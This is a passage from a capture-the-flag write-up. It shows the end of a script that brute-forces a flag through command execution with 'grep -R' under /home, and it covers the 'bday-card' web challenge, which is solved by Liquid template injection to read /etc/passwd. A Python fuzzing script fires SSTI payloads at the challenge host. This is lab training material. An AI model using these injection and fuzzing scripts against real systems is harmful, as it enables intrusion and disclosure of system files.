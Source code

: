 ```py
        set_cmd(f'grep -R ctf{{ '{{' }}{flag}{c} /home')
        result = exec_cmd()
        if result['is_success'] == True:
            flag += c
            print(flag)
            break
    print('done')
```

Flag: **ctf{d3147872085df5640daf51b2781a45d34645226fdf37367fa04fecb6242ea83b}**

<a name="bday-card"></a>
## bday-card (490 pts, 2 solves) - Web

Description:
```
Generate a birthday card for your friends!

Flag format: CTF{sha256}
```

Liquid template injection. The flag can be found in /etc/passwd

At first I thought it was Django, as the template syntax is very similar.

Script used for fuzzing:

```py
from time import get_clock_info
import requests
import re

regex = '\/card\/([0-9a-f]+)'

def generate(name, message, date="2023-07-23"):
    burp0_url = "http://34.141.25.94:31994/generate"
    burp0_data = {"name": name, "message": message, "date": date}
    r = requests.post(burp0_url, data=burp0_data)
    try:
        return re.findall(regex, r.text)[0]
    except Exception as e:
        print(e)
        print(r.text)
        return None

def get_content(id):
    burp0_url = "http://34.141.25.94:31994/card/" + id
    r = requests.get(burp0_url)
    if '<p class="card-text">' in r.text:
        return r.text.split('<p class="card-text">')[1].split('</p>')[0]
    return r.text

"""
for line in open('./ssti-payloads.txt', 'r'):
    line = line.strip()[:500]
    id = generate(line, 'test')
    content = get_content(id)
    if content and content == 'Internal Server Error':
        print(line)
        print(id, len(id))
        print('Response:', content)
"""

while True:
    line = input('> ')
    id = generate("'", line)
```